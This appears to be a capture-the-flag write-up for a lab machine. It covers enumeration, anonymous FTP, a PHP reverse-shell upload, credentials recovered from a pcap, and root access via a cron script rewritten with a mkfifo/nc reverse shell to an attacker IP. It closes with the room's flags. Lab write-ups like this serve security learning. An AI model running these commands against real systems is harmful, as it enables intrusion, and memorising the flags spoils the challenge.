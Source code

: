 # Author:Panagiotis Fiskilis/Neuro

### Description: ###

<h3>Solution:</h3>

Machine ip=10.10.111.195

**Initial Enum:**

```bash
nmap -sV -sC 10.10.111.195
gobuster dir -u "http://10.10.111.195/" -w /opt/1337/directory-list-2.3-medium.txt
```

*Nmap results:*

Ports:21,22,80

![nmap](./Images/nmap.png)


We found that the server has Anonymous ftp enabled:

```bash
ftp 10.10.111.195
Username:anonymous
password:
mkdir FTP_Files
```

Downloaded the files from ftp and got some memes

*Gobuster results:*

![gobuster](./Images/)


We found a <code>files</code> directory where we can access the fpt files.

We can upload a php reverse shell and access it via the http instance

Now we use <code>netcat</code>

**Foothold:**

```bash
nc -nlvp 4444
```

![rev shell](./Images/rev_shell.png)

We will use python3 to get an interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
/bin/bash
```

We found the first flag on the root(/) directory

![flag1](./Images/flag1.png)

Inside the root(/) directory we find an <code>incidents</code> directory, inside it we find a <code>suspicious.pcapng</code>

![user](./Images/user.png)

We download it and analyze it with <code>wireshark</code> and get from the tcp streams the user credentials

```
User:lennie
password:c4ntg3t3n0ughsp1c3
```

We elevate our privileges and get user lennie

```bash
su lennie #pass=c4ntg3t3n0ughsp1c3
cat user.txt
```

![flag2](./Images/flag2.png)

We will upload <code>linpeas</code> to elevate our privileges

**NOTE:** I also used ssh to get a stable shell

I also downloaded <code>pspy64</code>

Found an interesting binary with <code>pspy</code>

![pspy](./Images/update.png)

Also linpeas found:

```
/etc/print.sh
```

I changed <code>print.sh</code> to this:

```bash
#!/bin/bash
echo "Done!"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.68.187 5555 >/tmp/f
```

And activated the root shell with a nc listener and by executing the print.sh script

![root](./Images/root.png)

# Flags:

**Task 1:**

Q1: ```What is the secret spicy soup recipe?```

A: ```love```

Q2: ```What are the contents of user.txt?```

A: ```THM{03ce3d619b80ccbfb3b7fc81e46c0e79}```

Q3: ```What are the contents of root.txt?```

A: ```THM{f963aaa6a430f210222158ae15c3d76d}```

**Task 2:**

Q1: ```Congratulations!```

A: No answer needed
